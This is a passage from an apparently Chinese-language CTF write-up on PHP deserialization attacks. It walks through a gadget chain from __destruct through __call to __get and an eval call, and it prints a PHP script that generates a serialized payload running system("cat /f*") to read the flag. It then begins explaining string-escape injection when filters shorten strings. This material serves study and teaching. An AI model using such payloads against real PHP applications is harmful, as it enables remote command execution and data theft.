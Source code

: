 ```
```
1、首先找到头和尾，头是$_GET['serialize']，尾是__get方法内的eval函数。  
2、然后往前推导，触发__get方法的前提是用于从不存在的属性读取数据或者不存在这个键，注意到springboard类内的__call方法内的echo刚好满足条件。  
3、而调用__call方法的前提是在对象上下文中调用不存在的方法，刚好__destruct方法调用了一个不存在的函数，而__destruct方法在对象被销毁时触发。  
4、理一下执行顺序: __get -> __call -> __destruct  

得到payload：
```
<?php
class entrance
{
    public $start;
}
class springboard
{
    public $middle;
}
class evil
{
    public $end;
}
$o = new entrance();
$o->start = new springboard();
$o->start->middle = new evil();
$o->start->middle->end = 'system("cat /f*");';
echo serialize($o);
//O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:18:"system("cat /f*");";}}}
```  
get提交参数得到flag
![](serialize-unserialize/9.png)
<br>

## 字符串逃逸
PHP在反序列化时，是以 ;} 作为结尾的，后面的字符串不影响正常的反序列化。  
字符串逃逸是由于长度异常而导致后面注入字符串被正常解析，使得我们构造的恶意字符串逃逸到正常的属性值中，最终在反序列化后恶意修改了类属性。  
而字符串逃逸根据过滤函数，又分为**字符数减少**，和**字符数增多**。

### 字符数减少
多逃逸出一个成员属性，第一个字符串**减少**，**吃**掉有效代码，在第二个字符串构造代码。
  
假设preg_replace函数将system()替换为空，并且要增加一个成员v3，那么： 
`O:1:"A":2:{s:2:"v1";s:27:"abcsystem()system()system()";s:2:"v2";s:21:"1234567";s:2:"v3";N;}";}`  
会变成  
`O:1:"A":2:{s:2:"v1";s:27:"abc";s:2:"v2";s:21:"1234567";s:2:"v3";N;}";}` 成员v1的值长度为27，那么往后的`abc";s:2:"v2";s:21:"1234567`都是成员v1的值，而v3也就成功修改了类属性，于是N后面的`;}`成功闭合，最后的`";}`被丢弃。
